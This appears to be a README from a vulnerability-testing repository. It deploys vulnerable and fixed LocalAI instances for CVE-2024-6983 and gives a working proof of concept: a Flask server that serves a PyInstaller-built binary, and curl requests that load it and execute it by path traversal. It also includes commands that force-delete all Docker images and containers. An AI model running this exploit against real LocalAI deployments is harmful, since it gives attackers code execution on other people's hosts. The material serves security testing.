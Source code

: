 # Mudler/LocalAI CVE-2024-6983

This directory contains the deployment config for LocalAI instances vulnerable and fixed to CVE-2024-6983. LocalAI versions below 2.19.4 are vulnerable to that remote code execution vulnerability.

## How to Trigger the Vulnerability?

To trigger the vulnerability, you can use the following two curl commands and the provided Python Script. You may need to install Flask and PyInstaller via pip. Since this vulnerability requires hosting a YAML and an ELF file, the provided Python script will host these files. In a vulnerable environment, after the second curl request, you can see the created file under the /tmp/ directory.

Python Script:

```py
from flask import Flask,send_file,request
import tempfile
import PyInstaller.__main__
import os

app=Flask(__name__)

CONF="""name: "life"

download_files:
  - filename: "app.bin"
    uri: "{0}app.bin"
"""

# Builds exploit code
def build():
    CODE = 'open("/tmp/test.txt","a").write("1337")' # Python code we want to run
    appname="app.bin"
    if os.path.isfile(appname):
        return appname
    with tempfile.NamedTemporaryFile(delete=False) as fp:
        fp.write(CODE.encode())
        fp.close()
        PyInstaller.__main__.run(["--onefile","--clean","--workpath","/tmp/build/","--specpath","/tmp","--distpath",".","-n",appname,fp.name])
    return appname

# Serve model.yaml file
@app.get("/model.yaml")
def model():
    return CONF.format(request.root_url)

# Serve app.bin file
@app.get("/app.bin")
def files():
    return send_file(build())

# Start the server
app.run("0.0.0.0",8000)
```

Curl Requests:

```
# Run above Python script first.
python server.py

# Upload the yaml and compiled Python file
curl http://localhost:8080/models/apply -X POST -H "Content-Type: application/json" -d '{"name":"life","config_url":"http://localhost:8000/model.yaml","id":""}'

# Trigger the uploaded app.bin file via the backend parameter.
curl http://localhost:8080/embeddings -X POST -H "Content-Type: application/json" -d '{"backend":"../../../../../../build/models/app.bin","model":"life","input":"hi"}'

# Validate the created file by checking the docker inside.
docker exec -it local-ai bash --> ls /tmp/
```

In case you cannot trigger the vulnerability, you might need to delete your existing container images because Docker might try to reuse them.

```
sudo docker rmi -f $(sudo docker images -aq)
sudo docker remove $(sudo docker ps -a -q)
```
## Fixed version
```
docker run -p 8080:8080 -e "DEBUG=true" --name local-ai --network host -ti localai/localai:v2.19.4-ffmpeg-core
```

The deployed service listens on `localhost:8080` after the docker completes its job.

## Vulnerable version
```
docker run -p 8080:8080 -e "DEBUG=true" --name local-ai --network host -ti localai/localai:v2.14.0-ffmpeg-core
```

The deployed service listens on `localhost:8080` after the docker completes its job.
